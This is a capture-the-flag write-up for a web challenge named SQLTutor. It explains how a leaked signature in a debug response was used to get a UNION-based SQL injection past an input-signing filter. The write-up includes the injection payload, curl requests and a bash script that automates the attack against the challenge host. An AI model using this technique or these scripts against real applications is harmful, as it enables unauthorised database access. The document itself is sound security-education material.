 # Challenge: SQLTutor

## Category: WEB

The challenge was quite good because it was simple but not a 'throw-sqlmap-and-pray' task. The goal was to get a flag stored in the DB.

You face a website that takes user input and after 2 steps submit a query into a database. The player can choose the base query from a menu, some query examples are: 

```sql
SELECT * FROM users WHERE users.name='{input}'

SELECT * FROM users WHERE users.name !='{input}'

SELECT u.*, COUNT(c.id) as `rich meter` FROM users u JOIN cars c ON c.ownerID=u.id WHERE u.name='{input}' GROUP BY u.id

# ... and more
```

The first query is already suitable for SQL Injection using : ```' UNION <payload> -- -```. The challenge was not that easy - this payload fails and a popup appears to notify the player.

Let's look at the requests when every input is submitted:
```
POST /verify_and_sign_text

POST /execute
```

The javascript source code helps:
```js
$(() => {
  const executeQuery = (text, signature, queryNo) => {
    // text here is base64 encoded
    // signature confirms, that there is nothing malicious in the text
    // queryNo is used to identify the query that will be executed
    $.ajax({
      url: "/execute",
      method: "POST",
      data: {
        // Backend devs said that the text should be base64 encoded
        text, // must be base64
        signature, // must be sha1
        queryNo,
        //debug:true - commented parameter
      },
    }).done((data) => {
      if (data.status === "ok") {
        //Write query to pre in html

        // < RENDERING CODE CUT >

	// Because people continously try to break the app,
    // we need to make sure that the text is checked and signed
    $.ajax({
      type: "POST", // request type
      url: "/verify_and_sign_text",
      data: {
        // Backend devs said that the query should be base64 encoded
        text: btoa(contents),
        alg: "sha1",
        //debug:true - commented parameter
      },
    })
      .done((data) => {
        if (data.status === "ok") {
          // Overwrite sanitized query
          $("#query_text").val(atob(data.trimmedText));
          executeQuery(data.trimmedText, data.signature, queryNo); // /execute POST call
        } else {
          alert("Error: " + data.message);
        }
      })
      .catch((errdata) => {
        console.error(errdata);
      });
```

The first endpoint rejects every input that has harmful chars - ie ```& ' " -``` and creates a signature of our input encoded as base64 using ```btoa()``` function.
An interesting part is the signature beacuse at a closer look is not the standard ```sha1(btoa(input));```. Here an example:
```bash
# sha1 generated by myself
echo -n "JyBVTklPTiBTRUxFQ1QgKiwzLDQgRlJPTSBmbGFncyAtLSAt=" | sha1deep # 5f1f53293a30c59e4288de6c596dbf3bc4ab3048

# sha1 from the challenge - 5b023c3589475b9f62a7c029374b404c99465f5c

>>> "5f1f53293a30c59e4288de6c596dbf3bc4ab3048" == "5b023c3589475b9f62a7c029374b404c99465f5c" # False
```
Another step that i did was to use ```debug param``` but in ```/verify_and_sign_text``` doesn't hold much infos. It confirms the sha1 secret.
```bash
URL='https://sqltutor.dragonsec.si/verify_and_sign_text'
url -s $URL -X POST  -H 'Content-Type: application/x-www-form-urlencoded'  --data-raw 'text=ZGRk&alg=sha1&debug=true' | jq

"Created signature: sha1(secret+sanitize(text)) ✅"
```

At this step the attacker doesn't have enough info to solve the challenge so it's to time to go towards ```/execute```. The player control 4 parameter:

+ ```queryNo``` an integer from the drop-down menu
+ ```text``` base64 payload
+ ```signature``` sha1 signature
+ ```debug``` parameter

The ```queryNo``` is well checked, it accepts only integers > 0 and < max_index. The ```text``` field has a base64 string and different encoding won't help the player this time. ```signature``` is unknown because of the secret. But ```debug``` is worth to see this time. **The response leak information about the compare operation between signatures**:

```bash
"status":"error",
"message":"Invalid text signature, this incident will be reported!",
"compare":"5b023c3589475b9f62a7c029374b404c99465f5c !== 82a43266bebaf4ebfd7dec31f2f874e7be606511"}
```

At this point recap:

+ the player controls the base64 payload. It that can be custom created bypassing validation filter.
+ with a request a correct signature is leaked, and the next request will be valid.

Put everything together and get the flag. An important step before the flag is to enumerate the DB.

```bash
# winning payload
curl -s $URL -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
	--data-raw 'text=JyBVTklPTiBTRUxFQ1QgKiwzLDQgRlJPTSBmbGFncyAtLSAt=&signature=5b023c3589475b9f62a7c029374b404c99465f5c&queryNo=0&debug=true' 
```

It's easier with a script that automatize everything.
```bash
URL='https://sqltutor.dragonsec.si/execute'

# 4 output cols and i assumed just id,flag in the table
# enum part confirms it
PAYLOAD="' UNION SELECT *,3,4 FROM flags -- -" 
TEXT=$(echo -n $PAYLOAD | base64 -w0)
FSIG=$(echo -n $TEXT | sha1deep)

# cut used to split on ! char - ["5b023c3589475b9f62a7c029374b404c99465f5c ", !== " 5b023c3589475b9f62a7c029374b404c99465f5c"]
# sed is used to remove trailing space and double quote
RSIG=$(curl -s $URL -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
	--data-raw "text=$TEXT=&signature=$FSIG&queryNo=0&debug=true" | jq ".debug.compare" | cut -f1 -d '!' | sed -E 's/"| //g')

curl -s $URL -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
	--data-raw "text=$TEXT=&signature=$RSIG&queryNo=0&debug=true" | jq
```